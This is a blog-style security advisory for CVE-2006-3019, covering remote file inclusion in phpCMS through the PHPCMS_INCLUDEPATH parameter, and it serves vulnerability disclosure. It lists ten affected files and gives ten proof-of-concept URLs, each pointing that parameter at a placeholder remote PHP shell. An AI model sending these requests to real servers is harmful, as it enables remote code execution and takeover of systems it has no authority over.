 ```yaml
---
layout: post
title:  "CVE-2006-3019 – phpCMS <= 1.2.1pl2 - Multiple Vulnerabilities"
date:   2006-06-12 00:00:00
categories: security cve
permalink: post/CVE-2006-3019-phpcms-multiple-vulnerabilities/
---
```


### Vendor

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

[http://www.phpcms.de/][phpcms]

[phpcms]:	http://www.phpcms.de/	"phpCMS"

### Description

Multiple `PHP Remote File Inclusion` (RFI) vulnerabilities in `phpCMS 1.7 - 1.2.1pl2` (other versions may also be affected) allow remote attackers to execute arbitrary PHP code via a URL in the **PHPCMS_INCLUDEPATH** parameter.

### Affected Files

* (1) class.parser_phpcms.php,
* (2) class.session_phpcms.php,
* (3) class.edit_phpcms.php,
* (4) class.http_indexer_phpcms.php,
* (5) class.cache_phpcms.php,
* (6) class.search_phpcms.php,
* (7) class.lib_indexer_universal_phpcms.php,
* (8) class.layout_phpcms.php,
* (9) parser/plugs/counter.php,
* (10) parser/parser.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/[pc_path]/parser/include/class.parser_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
2. http://localhost/[pc_path]/parser/include/class.session_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
3. http://localhost/[pc_path]/parser/include/class.edit_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
4. http://localhost/[pc_path]/parser/include/class.http_indexer_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
5. http://localhost/[pc_path]/parser/include/class.cache_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
6. http://localhost/[pc_path]/parser/include/class.search_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
7. http://localhost/[pc_path]/parser/include/class.lib_indexer_universal_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
8. http://localhost/[pc_path]/parser/include/class.layout_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
9. http://localhost/[pc_path]/parser/plugs/counter.php?PHPCMS_INCLUDEPATH=
**~**
10. http://localhost/[pc_path]/parser/parser.php?PHPCMS_INCLUDEPATH=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019][mitre]
* [http://www.securityfocus.com/bid/21768][securityfocus]
* [http://www.osvdb.org/26388][osvdb]
* [http://secunia.com/advisories/20573][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019 "CVE 2006-3019"
[securityfocus]:	http://www.securityfocus.com/bid/21768						"SecurityFocus-21768"
[osvdb]:			http://www.osvdb.org/26388									"OSVDB-26388"
[secunia]:			http://secunia.com/advisories/20573							"Secunia-20573"